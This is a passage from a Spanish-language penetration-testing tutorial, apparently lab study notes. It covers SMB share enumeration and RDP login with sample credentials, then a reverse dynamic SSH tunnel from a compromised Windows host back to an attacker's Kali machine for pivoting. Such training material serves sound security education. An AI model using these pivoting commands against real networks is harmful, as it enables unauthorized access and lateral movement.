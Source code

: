 ```
kali@kali:~$ smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234

        Sharename       Type      Commen
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        scripts         Disk
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 172.16.50.217 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

kali@kali:~$
```
<br />

### 4. Port Forwarding with Windows Tools.

#### 4.1. SSH.exe

La primera opción que tenemos es comprobar si el sistema Windows tiene el servicio SSH instalado para poder aplicar lo aprendido anteriormente referente al SSH tunneling.

En las versiones de Windows con SSH instalado, encontraremos **scp.exe** , **sftp.exe** , **ssh.exe** , junto con otras utilidades ssh-\* en la ubicación **%systemdrive%\\Windows\\System32\\OpenSSH** de forma predeterminada.

Así, pongámos un ejemplo práctico. Supongámos que hemos ganado acceso a una máquina 

```
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:192.168.187.64
```

Enumerando la máquina descubrimos que tiene habilitado SSH.

```
C:\Users\rdp_admin>where ssh
C:\Windows\System32\OpenSSH\ssh.exe

C:\Users\rdp_admin>ssh.exe -V
OpenSSH_for_Windows_8.1p1, LibreSSL 3.0.2
```

Así, habilitamos el servicio ssh en nuestra kali:

```
kali@kali:~$ sudo systemctl start ssh   
[sudo] password for kali: 
```

Y en el host Windows ceramos un remote dynamic portforwarding:

```
C:\Users\rdp_admin>ssh -N -R 9998 kali@192.168.45.211
The authenticity of host '192.168.45.211 (192.168.45.211)' can't be established.
ECDSA key fingerprint is SHA256:lO9h0Bs6EiPc9FhxTikOYiKkSPArf1E0FxY7uFgrHss.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.45.211' (ECDSA) to the list of known hosts.
kali@192.168.45.211's password:
```
